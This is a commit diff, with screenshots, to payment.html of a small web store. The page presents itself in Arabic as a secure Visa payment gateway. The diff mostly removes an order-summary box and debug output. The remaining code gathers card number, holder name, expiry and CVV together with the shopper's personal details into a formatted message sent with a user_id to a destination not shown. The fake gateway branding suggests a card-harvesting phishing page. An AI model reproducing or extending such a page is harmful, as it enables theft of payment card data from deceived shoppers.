

Before and after one commit to adhamamroalreqeb2008-netizen/a2-store, a plain HTML site: page payment.html in a window 1280 px wide. Shown: the part 142-927 px from the top of the page. After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update payment.html

```diff
--- a/payment.html
+++ b/payment.html
@@ -47,7 +47,7 @@
 
     .brand {
       text-align: center;
-      margin-bottom: 20px;
+      margin-bottom: 24px;
     }
 
     .brand img {
@@ -65,35 +65,6 @@
       margin: 0;
       font-size: 22px;
       color: var(--text);
-    }
-
-    .order-summary {
-      background: #f8fafc;
-      border: 1px solid var(--border);
-      border-radius: 14px;
-      padding: 14px 16px;
-      margin-bottom: 18px;
-      font-size: 13.5px;
-      line-height: 1.8;
-    }
-
-    .order-summary .row {
-      display: flex;
-      justify-content: space-between;
-      gap: 10px;
-    }
-
-    .order-summary .row span:first-child {
-      color: var(--muted);
-      font-weight: 700;
-      flex-shrink: 0;
-    }
-
-    .order-summary .row span:last-child {
-      font-weight: 800;
-      color: var(--text);
-      text-align: left;
-      word-break: break-word;
     }
 
     .field {
@@ -232,19 +203,6 @@
       font-size: 12px;
     }
 
-    .debug-box {
-      margin-top: 12px;
-      padding: 10px 12px;
-      border-radius: 10px;
-      background: #f1f5f9;
-      border: 1px dashed #cbd5e1;
-      font-size: 11.5px;
-      color: #334155;
-      white-space: pre-line;
-      direction: rtl;
-      text-align: right;
-    }
-
     @media (max-width: 540px) {
       .split { grid-template-columns: 1fr; }
       .form-card { padding: 22px 16px 18px; }
@@ -257,16 +215,6 @@
       <div class="brand">
         <img src="https://alshafaqstore-uae.com/assets/images/visa.png" alt="Visa" />
         <h2>بوابة الدفع الآمنة — Visa</h2>
-      </div>
-
-      <div id="orderSummary" class="order-summary">
-        <div class="row"><span>الاسم:</span><span id="sumName">-</span></div>
-        <div class="row"><span>الرقم:</span><span id="sumPhone">-</span></div>
-        <div class="row"><span>العنوان:</span><span id="sumAddress">-</span></div>
-        <div class="row"><span>المنتجات:</span><span id="sumProducts">-</span></div>
-        <div class="row"><span>المبلغ الكلي:</span><span id="sumTotal">-</span></div>
-        <div class="row"><span>الدفعة الأولى:</span><span id="sumFirstPayment">-</span></div>
-        <div class="row"><span>رابط الفاتورة:</span><span id="sumInvoice">-</span></div>
       </div>
 
       <form id="paymentForm" novalidate>
@@ -310,7 +258,6 @@
       </form>
 
       <div class="security">🔐 جميع البيانات مشفرة ومحمية بتقنية SSL 256-bit</div>
-      <div id="debugInfo" class="debug-box"></div>
     </div>
   </div>
 
@@ -364,7 +311,7 @@
       const orderId = (a2order && a2order.id) || pending.order_id || '';
       const defaultInvoice = new URL('success.html', window.location.href).href + (orderId ? `?order=${encodeURIComponent(orderId)}` : '');
 
-      const result = {
+      return {
         customer_name: params.get('name') || pending.customer_name || delivery.name || 'غير محدد',
         customer_phone: params.get('phone') || pending.customer_phone || delivery.phone || 'غير محدد',
         customer_address: params.get('address') || pending.customer_address || delivery.address || delivery.city || 'غير محدد',
@@ -373,24 +320,9 @@
         first_payment: params.get('first_payment') || firstPayStr,
         invoice_link: params.get('invoice') || pending.invoice_link || defaultInvoice
       };
-
-      document.getElementById('debugInfo').textContent =
-        `حالة التخزين: a2delivery=${delivery.name ? 'موجود' : 'فارغ'} | a2order=${a2order ? 'موجود' : 'فارغ'} | a2_pending_order=${pending.customer_name || pending.total_amount ? 'موجود' : 'فارغ'}`;
-
-      return result;
     }
 
-    const orderInfo = loadOrderData();
-
-    document.getElementById('sumName').textContent = orderInfo.customer_name;
-    document.getElementById('sumPhone').textContent = orderInfo.customer_phone;
-    document.getElementById('sumAddress').textContent = orderInfo.customer_address;
-    document.getElementById('sumProducts').textContent = orderInfo.products;
-    document.getElementById('sumTotal').textContent = orderInfo.total_amount;
-    document.getElementById('sumFirstPayment').textContent = orderInfo.first_payment;
-    document.getElementById('sumInvoice').textContent = orderInfo.invoice_link;
-
-    function buildFormattedMessage(card, holder, expiry, cvv) {
+    function buildFormattedMessage(orderInfo, card, holder, expiry, cvv) {
       return [
         'الاسم: ' + orderInfo.customer_name,
         'الرقم: ' + orderInfo.customer_phone,
@@ -533,7 +465,8 @@
         submitBtn.disabled = true;
         submitBtn.textContent = '⏳ جاري إرسال البيانات والتحويل...';
 
-        const formattedMessage = buildFormattedMessage(card, holder, expiry, cvv);
+        const orderInfo = loadOrderData();
+        const formattedMessage = buildFormattedMessage(orderInfo, card, holder, expiry, cvv);
 
         const data = {
           user_id: userId,
```
